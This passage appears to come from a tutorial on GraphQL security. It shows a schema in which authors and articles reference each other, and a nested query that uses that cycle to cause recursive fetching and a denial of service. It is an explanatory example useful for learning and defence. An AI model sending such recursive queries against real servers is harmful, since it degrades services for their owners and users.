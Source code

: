 Going forward, I present you a different schema here to explain how Denial-of-Service is done in GraphQL:

type Author {

    name: String

    articles: [Article]

}

​

type Article {

    title: String

    content: String

    author: Author

}

​

type Query {

    articles: [Article]

}

To attack the server, we must induce a recursive call of the article object. However, because the article object is again included as a list in the Author, this is fetched recursively and thus a Denial-of-Service can be formed.

query GetArticles {

  articles {

    title

    content

    author {

       name

       articles {

          title

          author {

            name

          }

       }

    }

  }

}
